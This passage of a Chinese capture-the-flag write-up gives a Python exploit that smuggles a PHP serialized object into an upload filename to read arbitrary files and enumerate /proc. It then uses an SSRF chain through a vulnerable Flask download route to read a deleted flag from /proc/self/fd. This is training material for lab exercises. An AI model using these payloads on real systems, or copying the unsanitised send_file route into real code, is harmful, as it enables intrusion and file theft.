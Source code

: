 > ------WebKitFormBoundarytyYa582A3zCNLMeL
> Content-Disposition: form-data; name="file"; filename="|O:5:\\"Happy\\":1:{s:5:\\"happy\\";O:5:\\"_New_\\":3:{s:5:\\"daniu\\";O:5:\\"_New_\\":3:{s:5:\\"daniu\\";O:4:\\"Year\\":1:{s:6:\\"zodiac\\";N;}s:5:\\"robot\\";s:6:\\"zodiac\\";s:8:\\"notrobot\\";s:"""+str(len(filename))+""":\\\""""+filename+"""\\";}s:5:\\"robot\\";N;s:8:\\"notrobot\\";N;}}\"
> Content-Type: text/plain
> 
> 
> ------WebKitFormBoundarytyYa582A3zCNLMeL--"""
> 	r=requests.post(url='http://851cd04b-d7ed-487c-abf4-87470a74b8f5.challenge.ctf.show/',data=data,headers={'Content-Type':'multipart/form-data; boundary=----WebKitFormBoundarytyYa582A3zCNLMeL','Cookie': 'PHPSESSID=iot4d3hd1isme3q26hl49361rk'})
> 	return(r.text.encode()[1990:])#去掉源码信息，encode是为了能显示\00
> 
> for i in range(999):
> 	print(i)
> 	print(get_file('/proc/'+str(i)+'/cmdline'))
> 	time.sleep(0.2)
> ```
>
> 可以查看到114进程开了一个 ` python3 /app/server.py` 
>
> 读一下这个文件，源码：
>
> ```python
> from flask import *
> import os
> 
> app = Flask(__name__)
> flag=open('/flag','r')
> #flag我删了
> os.remove('/flag')
> 
> @app.route('/', methods=['GET', 'POST'])
> def index():
> 	return "flag我删了，你们别找了"
> 
> @app.route('/download/', methods=['GET', 'POST'])
> def download_file():
>     return send_file(request.args['filename'])
> 
> 
> if __name__ == '__main__':
>     app.run(host='127.0.0.1', port=5000, debug=False)
> ```
>
> 可以发现flag文件被删掉了，flask在5000起了一个server，还有一个任意文件读取的路径：/download/
>
> 但是flag是在open之后被删的，而且还没有释放，所以可以在/proc/self/fd/下面找到，
>
> file_get_contents()是可以读http协议的资源的，于是读取 `"http://127.0.0.1:5000/download/?filename=/proc/self/fd/3"` 即可得到flag
>
> 0是stdin 1是stdout 2是stderr，fd号可以从3开始尝试。
